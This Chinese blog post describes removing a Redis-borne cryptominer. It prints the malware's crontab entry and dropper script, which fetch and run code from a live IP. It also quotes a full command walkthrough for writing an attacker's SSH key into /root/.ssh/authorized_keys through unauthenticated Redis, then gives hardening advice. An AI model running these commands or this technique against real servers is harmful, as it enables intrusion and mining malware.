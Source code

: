 ## 问题描述

#### 名为Donald的进程内存和CPU占用率都极高

## 解决思路

1.杀掉进程，删除名为Donald的文件

```shell
killall Donald
rm -rf /tmp/Donald
```

结果过了几秒钟，Donald进程又出现了，还是那个文件

2.考虑是否有守护进程

发现一个名为djgtfa4的进程很可疑，同样一通kill，发现Donald一样会自动重启

3.考虑是否有定时任务

 crontab -l 什么都没有，但是在文件`/var/spool/cron/crontabs/root`中有所发现

```shell
# /var/spool/cron/crontabs/root
*/15 * * -* * (/usr/bin/djgtfa4||/usr/libexec/djgtfa4||/usr/local/bin/djgtfa4||/tmp/djgtfa4||curl -fsSL -m180 http://68.183.140.39:8000/i.sh||wget -q -T180 -O- http://68.183.140.39:8000/i.sh) | sh
```

4.最终解决

删掉定时任务、杀掉进程、删除文件。瞬间舒服了

## 原理探究

### 1.脚本分析

```shell
mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * (/usr/bin/djgtfa4||/usr/libexec/djgtfa4||/usr/local/bin/djgtfa4||/tmp/djgtfa4||curl -fsSL -m180 http://68.183.140.39/i.sh||wget -q -T180 -O- http://68.183.140.39/i.sh) | sh" >> /var/spool/cron/crontabs/root
ps auxf | grep -v grep | grep djgtfa4 || rm -rf djgtfa4
if [ ! -f "djgtfa4" ]; then
    curl -fsSL -m1800 http://68.183.140.39/static/4004/ddgs.$(uname -m) -o djgtfa4||wget -q -T1800 http://68.183.140.39/static/4004/ddgs.$(uname -m) -O djgtfa4
fi
chmod +x djgtfa4
ps auxf | grep -v grep | grep djgtbcb | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtbcc | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtbcd | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtbce | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtfa0 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtfa1 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep djgtfa2 | awk '{print $2}' | xargs kill -9

```

2.如何植入脚本

这期间，阿里云给我发了很多邮件警告，说是监测到挖矿程序，并且访问恶意下载源，然后封了6379端口。

等等，6379端口不是Redis吗，难道Redis是罪魁祸首？带着疑问百度了一波。找到一篇文章。

[Redis挖矿原理及其防范](https://www.cnblogs.com/evan-blog/p/10707087.html)

### 1、首先我们需要一些先决条件

**条件一：**你首先要有一个Redis，并且我们要知道他的端口【默认6379】；

**条件二：**Redis的密码不能过于复杂，或者没有密码；

**条件三：**启动Redis的用户最好是Root用户，这样破坏性更大；

### 2、开始搞事情

#### 2.1 创建一对秘钥

通过ssh-keygen生成一对，当然可以使用已经有的都没有问题。

```
Copyroot@kali:/usr/local/src# ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /tmp/rediskey/id_rsa
```

接下来通过公钥生成攻击键值

```
Copy(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n";) > foo.txt
```

内容如下

```
Copyroot@kali:/tmp/rediskey# cat foo.txt 



ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZB1Kb/3lHME9MfDqgYyR6t+cvZRRptbakeGw8QOeAVzIbpPpU1bxintCJjpV4g+2hgesSI9Mlqtvqx1GWd401eoK1nKZM3qNV4zXGs5Ql6ylWBNjgUKuDQ/Y69aWzm3CbfA2z8zMMdVY/zJi71u1clxxkG4JE6GuntaWVzZa3BxBDhTLLYCyx/bMA9tSfYnmOL2zH0ecJDQ99y+dSu4UhpK9BJcyKVoAzljm2Q2TbOMI4EvQQcG2EfrX/YlRtlOToEf5DPeZtattFOajbLHVXM4AIug91xB53sfGcNJ6dLbFKlG4bYG/cmtASyR1y4Ef8rb/VMGPOVfzCZqebXgc1 root@kali
```

> 这里前后增加两个换行符是为了防止数据连接在一起造成失效问题。

#### 2.2 配置Key到Redis中[#](https://www.cnblogs.com/evan-blog/p/10707087.html#1037862731)

操作如下：

```
Copyroot@kali:/tmp/rediskey# cat foo.txt |redis-cli -h 192.168.243.129 -x set bar
OK
```

登录Redis进行检查，是否已经写入进Redis中。

```
Copyroot@kali:/tmp/rediskey# redis-cli -h 192.168.243.129
192.168.243.129:6379> get bar
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZB1Kb/3lHME9MfDqgYyR6t+cvZRRptbakeGw8QOeAVzIbpPpU1bxintCJjpV4g+2hgesSI9Mlqtvqx1GWd401eoK1nKZM3qNV4zXGs5Ql6ylWBNjgUKuDQ/Y69aWzm3CbfA2z8zMMdVY/zJi71u1clxxkG4JE6GuntaWVzZa3BxBDhTLLYCyx/bMA9tSfYnmOL2zH0ecJDQ99y+dSu4UhpK9BJcyKVoAzljm2Q2TbOMI4EvQQcG2EfrX/YlRtlOToEf5DPeZtattFOajbLHVXM4AIug91xB53sfGcNJ6dLbFKlG4bYG/cmtASyR1y4Ef8rb/VMGPOVfzCZqebXgc1 root@kali\n\n\n\n"
```

#### 2.3 通过Redis保存机制替换系统文件

且看如下操作

```
set bar "ssh-rsa AAAAB3NzaC1yc2..."
config set dir /root/.ssh
config set dbfilename "authorized_keys"
save
```

这个时候，我们登录远程主机看下效果。

```
Copyroot@kali:/tmp/rediskey# ssh -i id_rsa root@192.168.243.129
The authenticity of host '192.168.243.129 (192.168.243.129)' can't be established.
ECDSA key fingerprint is SHA256:XTnAL+b8HB5FL/t3ZlZqt0EfmTBgj7TI5VBU0nSHSGU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.243.129' (ECDSA) to the list of known hosts.
Linux kali 4.19.0-kali3-amd64 #1 SMP Debian 4.19.20-1kali1 (2019-02-14) x86_64

Last login: Sun Apr 14 20:52:40 2019 from 192.168.243.1
root@kali:~# w
```

OK到这里我们已经提权成功了，那我们看下导出文件到底是什么呢？其实就是Redis的保存文件形式罢了，有兴趣可以自己打开看看，这里不再展示。

### 3、如何预防

这个漏洞威力还是挺大的，我们现在只是拿到主机权限一个而已，加入放到定时任务执行一些脚本然后在批量感染呢？

**防范的技巧如下：**

1. Redis不要监听在危险IP上，如果有请加防火墙控制；
2. Redis一定要增加密码限制，且不能是弱口令；
3. Redis尽量不要用Root用户身份来启动。

> 做到如上三点防范Redis挖矿，没问题的。
